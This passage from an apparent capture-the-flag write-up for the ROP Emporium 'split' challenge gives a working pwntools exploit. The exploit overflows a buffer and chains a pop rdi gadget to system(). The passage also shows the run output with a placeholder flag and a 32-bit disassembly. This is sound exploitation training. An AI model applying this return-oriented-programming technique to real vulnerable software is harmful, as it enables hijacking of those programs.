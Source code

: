 ```
```

### Exploit

```python
from pwn import *

padding = b"a"*40
poprdi_addr = p64(0x00000000004007c3)
bincat_addr = p64(0x601060)
system_addr = p64(0x000000000040074b)

payload = padding + poprdi_addr + bincat_addr + system_addr

p = process('./split')
p.sendline(payload) 
p.interactive()
```

* Let's run the exploit.

```
$ python exploit.py 
[+] Starting local process './split': pid 987
[*] Switching to interactive mode
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

##

## 32 bit

### usefulFunction()

```
pwndbg> disassemble usefulFunction
Dump of assembler code for function usefulFunction:
   0x0804860c <+0>:     push   ebp
   0x0804860d <+1>:     mov    ebp,esp
   0x0804860f <+3>:     sub    esp,0x8
   0x08048612 <+6>:     sub    esp,0xc
   0x08048615 <+9>:     push   0x804870e
   0x0804861a <+14>:    call   0x80483e0 <system@plt>
   0x0804861f <+19>:    add    esp,0x10
   0x08048622 <+22>:    nop
   0x08048623 <+23>:    leave
   0x08048624 <+24>:    ret
End of assembler dump.
```
